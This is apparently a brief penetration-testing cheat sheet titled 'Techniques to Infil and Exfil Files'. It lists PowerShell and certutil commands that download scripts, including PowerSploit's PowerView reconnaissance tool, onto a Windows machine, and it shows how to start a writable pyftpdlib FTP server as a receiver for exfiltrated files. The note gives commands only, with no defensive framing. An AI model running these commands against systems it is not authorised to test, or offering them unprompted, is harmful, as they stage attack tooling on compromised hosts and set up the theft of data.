 # Techniques to Infil and Exfil Files

## Infil

```powershell
# Powershell
wget https://example.com/script.ps1 -o script.ps1
# OR
Invoke-WebRequest -OutFile PowerView.ps1 -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

# Certutil
certutil.exe -urlcache -f http://example.com/script.ps1 script.ps1
```

## Exfil

## Python3 pyftpdlib

On the machine you are exfilling to:  

```bash
pip3 install pyftpdlib
python3 -m pyftpdlib -w --user=username --password=password
```
